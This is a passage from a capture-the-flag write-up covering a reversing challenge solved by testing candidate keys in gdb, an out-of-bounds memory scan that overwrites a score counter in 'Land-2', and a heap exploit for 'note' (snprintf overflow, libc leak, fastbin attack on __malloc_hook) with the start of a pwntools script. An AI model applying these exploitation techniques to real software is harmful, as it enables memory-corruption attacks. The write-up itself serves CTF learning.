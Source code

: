 	print results 
	```

There should be 7 possibilities `[39, 43, 48, 50, 114, 117, 206]`.

3. The third one is to verify the flag. It uses strcmp to compare our flag with its. Use gdb to test 7 possibilities one by one, then we will find out that when the key = 50, the flag is correct.

### Emoji encoder



## Pwn

### Land-2
The score you can get is decide by the `_count` variable. So the goal in this challenge is to control `_count`.
Use `area()` we can increase the global variable `_count`. We can increase `_count` to a number we know, then search the number in Bss section to find the location of `_count`. After we found the location of `_count`, we can do arbitrary write on it.
We can call `area()` to find the answer. Set `_count` to zero before return the answer.
The following code shows how to find the `_count`'s address.
```c=
int aaa[1]; 
rectangle find_rectangle(){  
    rectangle answer;  
    for(int i=0;i<76;i++)area(0,0,1,1); 
    int c = -2000; 
    for(;c<=0;c++){ 
        if(aaa[c]==76)break; 
    } 
    aaa[c] = 0; //aaa[c] == _count
}
```

### note

The return value of snprintf is the size of characters printed, instead of the size written to the final string.

It will cause heap overflow vulnerability at `copy`. 
Leaking libc base address, and do fastbin attack to overwrite `__malloc_hook` to `one_gadget`.

The `idx` and `size` value should be 0 to satisfy one_gadget limitation.

```python=
from pwn import *
import sys
if len(sys.argv) >1:
    r = remote(sys.argv[1], int(sys.argv[2]))
else:
    r = process('./note')

def create(size):
    r.sendlineafter(':', '1')
    r.sendlineafter(':', str(size))

def edit(idx, ctx):
    r.sendlineafter(':', '2')
    r.sendlineafter(':', str(idx))
    r.sendafter(':', ctx)

def show(idx):
    r.sendlineafter(':', '3')
    r.sendlineafter(':', str(idx))

```
